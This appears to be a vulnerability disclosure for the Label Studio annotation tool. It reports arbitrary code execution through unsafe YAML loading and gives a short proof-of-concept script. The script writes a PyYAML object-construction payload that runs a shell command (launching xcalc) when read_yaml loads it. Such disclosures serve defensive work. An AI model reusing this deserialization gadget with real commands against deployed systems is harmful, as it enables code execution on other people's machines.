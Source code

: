 # Description

`Label Studio` is a swiss army knife of data labeling and annotation tools  which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install label-studio
```

### Run exploit.py
```
import os
#os.sysem('pip3 install label-studio')
from label_studio.utils import io
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
io.read_yaml('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution

